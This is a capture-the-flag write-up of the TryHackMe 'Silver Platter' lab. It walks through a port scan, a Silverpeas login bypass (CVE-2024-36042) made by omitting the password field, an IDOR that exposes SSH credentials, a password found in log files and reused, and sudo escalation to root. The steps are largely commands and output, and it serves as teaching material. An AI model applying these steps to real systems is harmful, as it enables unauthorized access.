





# Silver Platter - TryHackMe Writeup

**TL;DR:**  Exploiting an authentication bypass vulnerability in Silverpeas (CVE-2024-36042) to gain initial access, discovering SSH credentials through IDOR vulnerability, and escalating privileges via password reuse and sudo misconfiguration.

## Target
- Machine: `silver.thm`
- Date: 2025-7-13
- Environment: TryHackMe / CTF

## Steps:

1. Initial scan:

```bash
nmap -sV -sC -T4 -Pn silver.thm

22/tcp   open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http       nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Hack Smarter Security
8080/tcp open  http-proxy
```
-------------------

While checking the site on port 80 we found:



We found manager username. `scr1ptkiddy`
on `Silverpeas` software

--------------------

2. Directory discovery:

We've already found out the project name they're using. `silverpeas`
it's run on `8080` port.

URL: `http://silver.thm:8080/silverpeas/`



About the project:
`Silverpeas is an open-source intranet software for sharing, collaboration, and communication, with features like content sharing, messaging, and knowledge ...`

---------------------

3. Login bypass

#### CVE-2024-36042
`Silverpeas before 6.3.5 allows authentication bypass by omitting the Password field to AuthenticationServlet, often providing an unauthenticated user with ...`

We gonna remove password field from login request via `burp suite` :



login successfully !

----------------------

4. IDOR

If we look at the URL of the notifications we can see the ID of the user.



We can discover other users' messages by changing the ID.

ID 6 contains the SSH credentials.



--------------------------------------

## User Flag

connect via ssh with credentials that we discovered.

```bash
ssh tim@silver.thm
```

```bash
cat user.txt

THM{[REDACTED]}
```

## Root Flag

Search for passwords in files:

```bash
fgrep --color -Rsi "password" *


log/auth.log.2:Dec 13 15:45:57 silver-platter sudo:    tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker run --name silverpeas -p 8080:8000 -d -e DB_NAME=Silverpeas -e DB_USER=silverpeas -e DB_PASSWORD=[REDACTED]/ -v silverpeas-log:/opt/silverpeas/log -v silverpeas-

```
We discovered database password of user `tyler` in the log files.
we reuse it to switch to `tyler`.

```bash

tim@ip-10-10-227-130:/var$ su tyler
Password: 
tyler@ip-10-10-227-130:/var$ id
uid=1000(tyler) gid=1000(tyler) groups=1000(tyler),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd)
```

--------------------

User `tyler` can run any command as root without password:
```bash
tyler@ip-10-10-227-130:~$ sudo -l
[sudo] password for tyler: 
Matching Defaults entries for tyler on ip-10-10-227-130:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User tyler may run the following commands on ip-10-10-227-130:
    (ALL : ALL) ALL


tyler@ip-10-10-227-130:~$ sudo su
root@ip-10-10-227-130:/home/tyler# id
uid=0(root) gid=0(root) groups=0(root)
```
Root flag:

```bash
root@ip-10-10-227-130:/home/tyler# cat /root/root.txt 
THM{[REDACTED]}
```
